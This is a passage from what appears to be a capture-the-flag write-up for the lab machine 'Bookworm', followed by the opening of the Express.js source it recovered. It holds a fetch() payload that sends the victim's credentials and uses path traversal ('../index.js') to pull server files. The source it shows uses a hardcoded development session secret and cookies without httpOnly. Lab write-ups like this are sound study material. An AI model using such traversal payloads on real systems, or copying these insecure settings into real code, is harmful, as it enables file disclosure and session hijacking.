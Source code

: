     
    
    fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../index.js", {credentials: 'include'})
    

The main source is:

    
    
    const express = require("express");
    const nunjucks = require("nunjucks");
    const path = require("path");
    const session = require("cookie-session");
    const fileUpload = require("express-fileupload");
    const archiver = require("archiver");
    const fs = require("fs");
    const { flash } = require("express-flash-message");
    const { sequelize, User, Book, BasketEntry, Order, OrderLine } = require("./database");
    const { hashPassword, verifyPassword } = require("./utils");
    const { QueryTypes } = require("sequelize");
    const { randomBytes } = require("node:crypto");
    const timeAgo = require("timeago.js");
    
    const app = express();
    const port = 3000;
    
    const env = nunjucks.configure("templates", {
      autoescape: true,
      express: app,
    });
    
    env.addFilter("timeago", (val) => {
      return timeAgo.format(new Date(val), "en_US");
    });
    
    app.use(express.urlencoded({ extended: false }));
    app.use(
      session({
        secret: process.env.NODE_ENV === "production" ? randomBytes(69).toString("hex") : "secret",
        resave: false,
        saveUninitialized: true,
        cookie: {
          maxAge: 1000 * 60 * 60 * 24 * 7,
          httpOnly: false,
        },
      })
    );
    app.use(flash({ sessionKeyName: "flashMessage", useCookieSession: true }));
    app.use("/static", express.static(path.join(__dirname, "static")));
    app.use(
      fileUpload({
        limits: { fileSize: 2 * 1024 * 1024 },
      })
    );
    